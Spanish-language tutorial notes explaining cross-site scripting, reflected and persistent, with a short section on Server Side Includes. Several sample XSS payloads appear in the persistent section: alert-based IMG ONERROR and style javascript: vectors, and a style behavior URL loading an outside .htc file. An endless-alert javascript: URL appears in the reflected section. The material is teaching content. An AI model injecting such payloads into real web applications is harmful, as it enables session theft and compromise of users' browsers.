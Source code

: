 Cross-site scripting (XSS) es un tipo de vulnerbilidad informática o agujero de seguridad típico de las aplicaciones Web, que puede permitir a una tercera persona inyectar en páginas web visitadas por el usuario código JavaScript o en otro lenguaje similar (ej:VBScript). Se puede evitar usando medidas como CSP Política del mismo origen.

Es posible encontrar una vulnerabilidad de Cross-Site Scripting en aplicaciones que tengan entre sus funciones presentar la información en un navegador web u otro contenedor de páginas web. Sin embargo, no se limita a sitios web disponibles en Internet, ya que puede haber aplicaciones locales vulnerables a XXS, o incluso el navegador en si.

XXS es un vector de ataque que puede ser utilizado para robar información delicada, secuestrar sesiones de usuario, y comprometer el navegador, subyugando la integridad del sistema. Las vulnerabilidades XXS han existido desde los primeros dias de la Web.

Esta situación es habitualmente causada al no validar correctamente los datos de entrada que son usados en cierta aplicación, o no sanear adecuadamente para su presentación como página web.

Esta vulnerabilidad puede estar presente de las siguientes formas:

-   Directa (también llamada persistente): este tipo de XXS comúnmente filtrado, y consiste en insertar código HTML peligroso en sitios que lo permitan; incluyendo así etiquetas como _script_ o _iframe_.
    
-   Indirecta (también llamada reflejada): este tipo de XSS consiste en modificar valores que la aplicación web utiliza para pasar variables entre dos páginas, sin usar sesiones y sucede cuando hay un mensaje o una ruta en la URL del navegador, en una cookie, o cualquier otra cabecera HTTP (en algunos navegadores y aplicaciones web, esto podría extenderse al DOM del navegador).
![](./img/directivas.png)
---
### XSS Indirecto (reflejado):

Supongamos que un sitio web tiene la siguiente forma:

[http://www.example.com/home.asp?frame=menu.asp](http://www.example.com/home.asp?frame=menu.asp)

y que al acceder se creará un documento HTML enlazando con un frame a menu.asp

En este ejemplo, ¿que pasaría si se pone como URL del frame yn código javascript?

javascript:while(1)alert(*Este mensaje saldrá indefinidamente”);

### XSS Directo (persistente)

Funciona localizando puntos débiles en la programación de los filtros de HTML, si es que existen, para publicar contenido (como blogs, foros, etc.)

Normalmente el atacante tratará de insertar tags como _iframe_, o _script_, pero en caso de fallar, al atacante puede tratar de poner tags que casi siempre están permitidas y es poco conocida su capacidad de ejecutar código. De esta forma el atacante podría ejecutar código malicioso.

Ejemplos: Una posibilidad es usar atributos que permiten ejecutar código.

BR STYLE=’behavior: url([http://yoursite/xss.htc](http://yoursite/xss.htc));”

DIV STYLE=’background-image: url(javascript:alert(‘XSS))’

IMG SRC=X ONERROR=”alert(/XSS/)’

### Server Side Includes:

Server Side Includes (SSI) es un conjunto de directivas que se escriben en las páginas HTML y que se evalúan en el servidor web cuando se solicita la página TML. SSI permite añadir contenido generado de forma dinámica a las páginas web, sin tener que programar toda la página mediante CGI, ASP, PHP o alguna tecnología similar.

El SSI no se encuentra estandarizado por ningún organismo, así que casa desarrollador de software de servidores web es libre de incluir e interpretar estas directivas como mejor le parezca. Por tanto, lo más recomendable es consultar la documentación del servidor web para averiguar qué directivas reconoce y con qué sintaxis.
